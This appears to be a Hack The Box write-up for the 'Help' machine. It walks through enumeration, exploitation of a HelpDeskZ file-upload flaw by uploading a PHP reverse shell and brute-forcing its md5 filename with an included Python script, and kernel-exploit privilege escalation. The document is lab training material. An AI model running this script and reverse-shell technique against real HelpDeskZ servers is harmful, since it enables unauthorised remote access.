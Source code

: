 # Help - hack the box 

![EFe80A.png](https://s2.ax1x.com/2019/04/21/EFe80A.png)

## Introduction

Target: 10.10.10.121(Linux)

Kali: 10.10.16.28

To be honest, Help is not a difficult box. But there are some rabbit holes in the box. And in some case you may come across some very strange situations. May you should step back, find is there something wrong. For the priesc of root, never give up trying the most basic method.

## Infomation Enumeration

Firstly, gather open ports and services:

```
# Nmap 7.70 scan initiated Sat Apr 20 02:13:56 2019 as: nmap -sC -sV -oA services 10.10.10.121
Nmap scan report for 10.10.10.121
Host is up (1.2s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 20 02:14:40 2019 -- 1 IP address (1 host up) scanned in 43.61 seconds
```

The port 80 seems to be a http service. Aceess to `http://10.10.10.121`, nothing special but just the apache default web page. Try gobuster:

```
gobuster -u http://10.10.10.121 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.tx -t 50
```

We have found a folder called: `support`:

![EFeHtx.png](https://s2.ax1x.com/2019/04/21/EFeHtx.png)

The 80 seems to be help support website. We will find more later.

For the `3000` port, it seems to be a express application. And nothing found for this.

![EFeXcD.png](https://s2.ax1x.com/2019/04/21/EFeXcD.png)

## Exploitation

### http

In the above, we can see `HelpDeskZ` in the web page. It may be a knid of product. Search related exploits, `searchsploit HelpDeskZ`.

![EF0rkt.png](https://s2.ax1x.com/2019/04/21/EF0rkt.png)

There two exploits about `HelpDeskZ`. `Arbitrary File Upload` is interesting, it seems that it can be exploited with valid credentials. The payload can be seen [here](https://www.exploit-db.com/exploits/40300). It's really significant to understand the root cause of the exploit. So know the details of the payload will be benificial.

The step of exploitation is:

1. Access to `http://10.10.10.121/support/?v=submit_ticket&action=displayForm`
2. Fill out all the fields in the web page, and sumit the ticket.
3. Then run the script to exploit.

The script can be exploited, but should take case of some case. I have learned an import lesseon from this box: if you stuck in some case for a long time and has not obtained the expected result. You should step back and see if there is anything wrong.

The reason of the exploit is: when submit a ticket, the attachment will be uploaded. And the uploaded file will be named as `md5(filename+filename_time)`. The source code is as [following](https://github.com/evolutionscript/HelpDeskZ-1.0/blob/006662bb856e126a38f2bb76df44a2e4e3d37350/controllers/submit_ticket_controller.php#L140):

```php
if(!isset($error_msg) && $settings['ticket_attachment']==1){
	$uploaddir = UPLOAD_DIR.'tickets/';		
	if($_FILES['attachment']['error'] == 0){
		$ext = pathinfo($_FILES['attachment']['name'], PATHINFO_EXTENSION);
		$filename = md5($_FILES['attachment']['name'].time()).".".$ext;
		$fileuploaded[] = array('name' => $_FILES['attachment']['name'], 'enc' => $filename, 'size' => formatBytes($_FILES['attachment']['size']), 'filetype' => $_FILES['attachment']['type']);
		$uploadedfile = $uploaddir.$filename;
		if (!move_uploaded_file($_FILES['attachment']['tmp_name'], $uploadedfile)) {
			$show_step2 = true;
			$error_msg = $LANG['ERROR_UPLOADING_A_FILE'];
		}else{
			$fileverification = verifyAttachment($_FILES['attachment']);
			switch($fileverification['msg_code']){
				case '1':
				$show_step2 = true;
				$error_msg = $LANG['INVALID_FILE_EXTENSION'];
				break;
				case '2':
				$show_step2 = true;
				$error_msg = $LANG['FILE_NOT_ALLOWED'];
				break;
				case '3':
				$show_step2 = true;
				$error_msg = str_replace('%size%',$fileverification['msg_extra'],$LANG['FILE_IS_BIG']);
				break;
			}
		}
}	
```

The most important code: `$filename = md5($_FILES['attachment']['name'].time()).".".$ext;`. We can found the rule of the name of the uploaded file. So it will be possile to find the uploaded attachment. And there is another stuff, when submited a reverse shell php file, you will get a hint: `File is not allowed`. However, the attachment has been uploaded. Because it will upload the attachment firstly. And then just give the error information.

![EFrlwj.png](https://s2.ax1x.com/2019/04/21/EFrlwj.png)

```php
if (!move_uploaded_file($_FILES['attachment']['tmp_name'], $uploadedfile)) {
	$show_step2 = true;
	$error_msg = $LANG['ERROR_UPLOADING_A_FILE'];
}else{
	$fileverification = verifyAttachment($_FILES['attachment']);
	switch($fileverification['msg_code']){
		case '1':
		$show_step2 = true;
		$error_msg = $LANG['INVALID_FILE_EXTENSION'];
```

Firstly, submit a ticket with the attachment of `php-reverse-shell.php` and will get error information `File is not allowed`. However, the script has been uploaded actually. 

![EFhf2j.png](https://s2.ax1x.com/2019/04/21/EFhf2j.png)

Then, try to run the script:

```
python exploit.py http://10.10.10.121/support/ a.php
```

In order to decrease the complexity of the md5 hash, the `php-reverse-shell.php` is renamed to `a.php`. However, there are two prblems so that I obtain nothing for the whole afternoon. The first problem is timezone. The uploaded filename depends on the file time. So it is impotant to keep the same timezone for the local machine and the server. We can find that the server timezone is GMT from the response header of Date. So modify the timezone of local machine:

```bash
timedatectl set-timezone GMT
```

After modify the timezone, still have not found anthing. It has some problem with the url. Read the source code and you will find the upload directory should be: `UPLOAD_DIR.'tickets/`:

![EFhSUS.png](https://s2.ax1x.com/2019/04/21/EFhSUS.png)

Hence, the url should be `http://10.10.10.121/support/uploads/tickets/`. So run the script:

`python exploit.py http://10.10.10.121/support/uploads/tickets/ a.php`

I have modified the scritp slightly for my own purpose.

```python
import hashlib
import time
import sys
import requests
print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 1500):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    print "This is the " + str(x) + " time:"
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)
    else:
        print "has tried " + url + ":" + str(response.status_code)

print "Sorry, I did not find anything"
```

Remember to set nc listen to port in the begining. After some time, the shell is returned.

![EFhlvR.png](https://s2.ax1x.com/2019/04/21/EFhlvR.png)

## Priv Esc

In contrast to the user shell, the root shell is extremely simple. But the basic method might be overlooked sometimes. Obtain root shell by kernel exploit is uncommon recently. But it never be insignificant to have a try. Obtain the kernel of the linux by `uname a`:

`Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux`

Google for `linux kernel 4.4.0--116`. Congratulations! Find the [payload](https://github.com/SecWiki/linux-kernel-exploits/tree/master/2017/CVE-2017-16995). Just download the payload and compile. After execution, the root shell is obtained.

![EF4Ezd.png](https://s2.ax1x.com/2019/04/21/EF4Ezd.png)




